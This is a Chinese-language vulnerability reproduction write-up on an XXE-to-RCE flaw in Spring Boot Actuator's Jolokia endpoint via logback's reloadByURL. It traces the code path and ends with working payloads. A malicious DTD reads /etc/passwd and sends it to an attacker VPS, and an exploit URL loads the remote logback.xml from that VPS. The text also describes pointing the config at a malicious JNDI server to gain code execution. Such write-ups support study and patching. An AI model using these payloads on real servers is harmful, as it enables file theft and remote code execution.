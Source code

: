 # Spring Boot Actuator jolokia 配置不当导致的XXE漏洞

## 一、漏洞简介

Spring boot 会把 **/!** 解析成 */*，所以我们只要署恶意脚本，让被攻击服务器访问就会触发漏洞。

***前提条件***

**查看jolokia/list中存在的 Mbeans，是否存在logback 库提供的reloadByURL方法**

```
https://www.baidu.com:9090/jolokia/list
```

![4140320665.png](images/2020_06_13/d42aa1d5bbef4f52be4cfac7df78d118.png)

## 二、漏洞影响

Spring Boot 2.x

## 三、复现过程

### 漏洞分析

#### 触发流程

**Spring-boot-actuator**->**Jolokia**->**Logback**->**JNDI**->**Rce**

可以在 **JolokiaMvcEndpoint** 类中先看看 **jolokia** 是如何注册的，如下

![](images/2020_06_13/15920619003486.png)


只要是 **/jolokia** 为第一个 **path** 节点的，都会进入它的执行逻辑中，可以一直跟进到**org.jolokia.http.HttpRequestHandler#handleGetRequest** 里

![](images/2020_06_13/15920619073823.png)


在上图红框流程中，先对 **path** 做 **/** 切割分组，不过可以 **1!/2** 这样能够保留 **/** 符号，后边用得到

可以根据 **path** 节点新建 **JmxRequest** 对象

大致如下图所示，有这么些类别可以指定

![](images/2020_06_13/15920619183026.png)


我们主要观察 exec 类型的，它对应 org.jolokia.request.JmxExecRequest 类型，在它被创建时，会调用父类 org.jolokia.request.JmxObjectNameRequest 的构造函数，如下所示

![](images/2020_06_13/15920619255698.png)


跟进 initObjectName 函数，如下

![](images/2020_06_13/15920619426055.png)


如上图，这里将 exec 后面的第一个 path 节点带进了 javax.management.ObjectName 构造函数中

![](images/2020_06_13/15920619494593.png)


根据上图中的注释描述，可以根据一个字符串（对象名称的字符串表示形式）创建一个 ObjectName 对象，这个对象和后面的反射执行指定函数大有关系

然后将 path 的下一个节点赋值到 JmxExecRequst 的 operation 属性上，将剩余的 path 节点作为 List 赋值给 arguments 属性

至此 JmxRequest 创建完毕，进入 org.jolokia.http.HttpRequestHandler#executeRequest 执行流程当中，其中很多部分就不详细跟踪，大致是又根据 exec 类型创建了一个 org.jolokia.handler.ExecHandler 对象

看见poc很好奇参数转换过程是怎么样的

直接进入到 ExecHandler 的 doHandRequest 当中

![](images/2020_06_13/15920619594115.png)


如上图，就是将 JmxExecRequst 中的 operation 做参数类型鉴定，然后根据目标函数需要的参数类型，将 arguments 转换成对应类型，最后执行 server.invoke 的调用，这个调用就是执行我们指定的类中的指定的函数，那这里是不是能够任意类和任意函数都能执行呢，不是的，需要提前注册，注册的内容可以通过 `/jolokia/list` 查看

ch.qos.logback.classic.jmx.JMXConfigurator 就是能够调用的类之一，到了这里就进入到了 `logback` 的依赖包中

简单查看一下它的函数：

![](images/2020_06_13/15920619673349.png)


首先这个类名就很有意思 JMXConfigerator ，和 JMX 的配置有关，函数中也有个 reloadByURL ，从名字就能会意出通过远程加载配置文件并且重启配置23333

先查看 reloadByURL 函数

![](images/2020_06_13/15920619767714.png)


如上图，它的参数是一个 URL 类型的，我们传入进去只能是 String，但是不用方，ExecHandler 的 doHandRequest 当中会对目标函数的参数类型做适配，将 String 转换成 URL 。
但是这里有个问题，因为需要指定 schema ，所以必须有类似 http:// 这样的开头，而我们的 path 进去以后，会用 / 切割分组的，所以就需要用到前面的流程中对 uri 的处理过程，只需要这样请求就好： `http:!/!/`

跟入 doConfigure 函数

![](images/2020_06_13/15920619859342.png)


从 url 获取返回流传入下一个 doConfigure 函数，这里也能 ssrf 的
跟进函数如下：

![](images/2020_06_13/15920619939019.png)

继续跟进上图中的红色方框如下

![](images/2020_06_13/15920620008158.png)


如上图所示，在调用 recordEvents 的时候带入了输入流，这个输入流是我们可控的，即在自己服务器上放置的 xml 文件， xml 解析的过程就是发生在 recordEvents 的执行过程中，而后红框的调用，是对已经解析完成的内容进行一定的逻辑操作，然后重载配置，后面的过程就不分析了，简单的去看一下 recordEvents 执行过程，如下

![](images/2020_06_13/15920620074871.png)


很简单，build 完成后直接 parse，那我们查看一下 build 的时候是否有做防护，如下

![](images/2020_06_13/15920620146672.png)


什么防护和限制都莫得，所以这里也可以造成 xxe

那么到现在为止，只是梳理出来了 xxe 的触发，rce 呢
不方，我们查一查 logback insertFormJNDI 标签啥

![](images/2020_06_13/15920620217006.png)


其中的 env-entry-name 就是指向 jndi 的服务器地址，那么这里我们可以换成自己的恶意 jndi 服务器地址，通过 jndi 触发 java 反序列化，最终导致 RCE

### 漏洞复现

* 在VPS上创建logback.xml，logback中填写jndi服务，当调用时直接触发恶意class。

```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://vps地址/恶意文件.dtd">%remote;%int;]>
<a>&trick;</a>

```

* 在VPS上创建ian.dtd

```xml
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">

```

![2.png](images/2020_06_13/afb1deabd61547f39c5cc0a1ab37b7c0.png)

* 开启http服务

```bash
python -m SimpleHTTPServer 80

```

* 远程访问logback.xml文件

```bash
https://www.baidu.com:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/VPS地址!/logback.xml

```

![1.png](images/2020_06_13/fdbfb23679474e579381aee28848c4da.png)

* 可以看到服务器上也返回了响应日志

    ![3.png](images/2020_06_13/e806985257d54cf08a38ed8f0e08a2fb.png)

## 参考链接

> https://xz.aliyun.com/t/4258

> https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Spring%20Boot%20Actuators%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/

